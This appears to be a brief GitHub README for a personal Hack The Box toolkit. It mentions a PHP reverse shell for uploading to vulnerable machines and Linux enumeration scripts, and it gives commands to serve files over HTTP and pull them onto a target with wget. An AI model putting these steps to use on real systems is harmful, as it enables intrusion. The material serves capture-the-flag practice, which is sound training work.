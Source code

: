 # Hackthebox tools
<p><b>shell.php</b> : Use for reverse shell when uploaded to vuln machine</p>
<p><b>les.sh and LinEnum.sh</b> : Use for detect vuln in Linux machine</p>

<b><p>How to upload files to vuln linux machine</p></b>
<p>In your machine type : python -m SimpleHTTPServer</p>
<p>In vuln machine type : wget (your ip address):8000/(file to upload)</p>
<p>Example : wget 10.10.14.62:8000/les.sh</p>
